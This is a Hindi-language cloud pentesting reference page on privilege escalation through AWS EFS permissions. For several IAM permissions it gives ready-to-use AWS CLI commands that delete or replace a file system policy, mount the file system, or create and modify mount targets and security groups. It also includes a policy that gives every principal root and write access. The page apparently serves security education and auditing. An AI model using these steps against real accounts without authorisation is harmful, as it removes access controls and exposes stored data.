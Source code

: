# AWS - EFS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EFS

**EFS के बारे में अधिक जानकारी** यहाँ है:

{{#ref}}
../aws-services/aws-efs-enum.md
{{#endref}}

याद रखें कि EFS को माउंट करने के लिए आपको उस उपनेटवर्क में होना चाहिए जहाँ EFS एक्सपोज़ किया गया है और आपके पास इसकी पहुँच होनी चाहिए (सुरक्षा समूह)। यदि ऐसा हो रहा है, तो डिफ़ॉल्ट रूप से, आप हमेशा इसे माउंट कर सकेंगे, हालाँकि, यदि यह IAM नीतियों द्वारा सुरक्षित है, तो आपको इसे एक्सेस करने के लिए यहाँ उल्लेखित अतिरिक्त अनुमतियाँ होनी चाहिए।

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

इनमें से किसी भी अनुमति के साथ, एक हमलावर **फाइल सिस्टम नीति** को **बदल सकता है** ताकि आपको इसकी **पहुँच मिल सके**, या इसे **हटाने** के लिए ताकि **डिफ़ॉल्ट पहुँच** प्रदान की जा सके।

नीति को हटाने के लिए:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
इसे बदलने के लिए:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

इस अनुमति के साथ, एक हमलावर **EFS को माउंट** करने में सक्षम होगा। यदि लिखने की अनुमति डिफ़ॉल्ट रूप से सभी को नहीं दी गई है जो EFS को माउंट कर सकते हैं, तो उसके पास केवल **पढ़ने की अनुमति** होगी।
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
अतिरिक्त अनुमतियाँ `elasticfilesystem:ClientRootAccess` और `elasticfilesystem:ClientWrite` का उपयोग **लेखन** के लिए किया जा सकता है जब यह फ़ाइल सिस्टम माउंट किया गया हो और **रूट** के रूप में उस फ़ाइल सिस्टम **तक पहुँच** प्राप्त करने के लिए।

**संभावित प्रभाव:** फ़ाइल सिस्टम में संवेदनशील जानकारी को खोजकर अप्रत्यक्ष प्रिवेस्क।

### `elasticfilesystem:CreateMountTarget`

यदि आप एक हमलावर हैं जो एक **उपनेटवर्क** के अंदर हैं जहाँ EFS का **कोई माउंट टारगेट** नहीं है। वह इस विशेषाधिकार के साथ **अपने उपनेट में एक बना सकता है**:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**संभावित प्रभाव:** फ़ाइल सिस्टम में संवेदनशील जानकारी को खोजकर अप्रत्यक्ष प्रिवेस्क।

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

एक परिदृश्य में जहाँ एक हमलावर पाता है कि EFS का माउंट टारगेट उसके उपनेटवर्क में है लेकिन **कोई सुरक्षा समूह ट्रैफ़िक की अनुमति नहीं दे रहा है**, वह बस **चुनिंदा सुरक्षा समूहों को संशोधित करके उसे बदल सकता है:**
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**संभावित प्रभाव:** फ़ाइल सिस्टम में संवेदनशील जानकारी को खोजकर अप्रत्यक्ष विशेषाधिकार वृद्धि। 

{{#include ../../../banners/hacktricks-training.md}}
